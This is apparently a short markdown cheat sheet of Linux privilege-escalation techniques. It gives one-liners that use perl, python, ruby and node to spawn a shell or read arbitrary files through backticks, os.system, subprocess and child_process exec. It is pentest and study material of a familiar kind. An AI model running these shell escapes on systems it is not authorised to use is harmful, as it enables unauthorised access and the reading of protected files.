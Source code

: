 &nbsp;

- **Escalate privileges with perl:**
  - drop to shell:

    ```bash
       perl -e '`/bin/bash`' 
    ```

  - view data of a file using perl:

    ```bash
       perl -e 'print `cat /path/to/file`'
    ```

&nbsp;

- **Escalate privileges with python:**
  - This will be done by reading file from python REPL (A Read–Eval–Print Loop).
  - Then running python to start the interactive shell, below is the code
  - Import os module then you can run the commands using os.system('cmd')

  ```bash
        import os
        os.system('cat /path/to/file') # Execute cat command to read file
        os.system('uname -a') # Execute uname command to get linux name

    # or
        from subprocess import call # import the call command from the subprocess module
        call(['cat', '/path/to/file']) # Execute the cat command to read file using the call method
  ```

&nbsp;

- **Escalate privileges with ruby:**
  - start a ruby shell/REPL to run ruby commands:

    ```bash
       ruby -e 'require "irb" ; IRB.start(__FILE__)'
    ```

  - read file inside the ruby REPL:

    ```bash
       puts `cat /path/to/file`
    ```

  - or one can use ruby -e to run a command; (where the puts command prints the value back)

    ```bash
       ruby -e 'puts `cat /path/to/file`'
    ```

&nbsp;

- **Escalate privileges with node:**
  - The payload below ran inside the node command is a JavaScript code, that uses a variable exec function/module to execute a command and uses 3 functions error, stdOut and stdErr to read the standard output using the console.log module/function. 
  - Read a file with node:

    ```bash
        node -e 'var exec = require("child_process").exec;
        exec("cat /path/to/file", function (error, stdOut, stdErr) {
        console.log(stdOut);
        });'
    ```
